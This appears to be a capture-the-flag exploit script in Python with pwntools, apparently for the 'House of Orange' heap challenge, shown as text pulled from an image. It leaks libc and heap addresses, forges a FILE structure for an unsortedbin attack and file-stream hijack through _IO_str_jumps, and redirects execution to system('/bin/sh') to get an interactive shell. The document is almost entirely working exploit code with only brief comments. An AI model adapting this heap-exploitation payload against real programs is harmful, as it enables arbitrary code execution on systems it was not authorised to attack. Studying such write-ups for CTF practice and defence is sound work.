 ```python
see()
io.recvuntil('Name of house : DDDDDDDD')
libc_base = u64(io.recvuntil('\n',drop=True).ljust(0x8,"\x00"))-0x397b00-0x668
print "libc_base : " +hex(libc_base)
system_addr = libc_base+libc.symbols['system']
log.info('system_addr:'+hex(system_addr))
IO_list_all = libc_base+libc.symbols['_IO_list_all']
log.info('_IO_list_all:'+hex(IO_list_all))
_IO_str_jumps=libc_base+possible_IO_str_jumps_offset
print "possible_IO_str_jumps_offset : "+hex(_IO_str_jumps)




#leak heap_base
upgrade(0x400,'E'*0x10,5,5)
see()
io.recvuntil('Name of house : ')
io.recvuntil('E'*0x10)
heap_base = u64(io.recvuntil('\n',drop=True).ljust(0x8,"\x00"))-0x130
log.info('heap_base:'+hex(heap_base))


# unsortedbin attack ,Fsop

binsh_addr = heap_base +0x140

pad ="/bin/sh\x00"   # binsh address
pad = pad.ljust(0x410,"\x00")
pad += p32(6)+p32(6)+p64(0)

stream = p64(0)+p64(0x61)  # fp->_flags = 0
stream += p64(0xddaa)+p64(IO_list_all-0x10)
stream +=p64(1)+p64(0x7ffffffffffd) # (fp->_IO_write_ptr - fp->_IO_write_base )  是一个很大的正值,远大于  (fp->_IO_buf_end - fp->_IO_buf_base)
stream +=p64(0)
stream +=p64(0)+p64((binsh_addr-100)/2)  # fp->_IO_buf_base=0 ,  fp->_IO_buf_end=(binsh_addr-100)/2
stream = stream.ljust(0xc0,"\x00")
stream += p64(0) # mode<=0
stream += p64(0)
stream += p64(0)
stream += p64(_IO_str_jumps)   # vtable
stream = stream.ljust(0xe0,"\x00")
stream +=p64(system_addr)   # call system

payload = pad + stream

upgrade(0x800,payload,6,3)
#raw_input()
#gdb.attach(io)
io.recvuntil('Your choice : ')
io.sendline(str(1))

io.interactive()


```
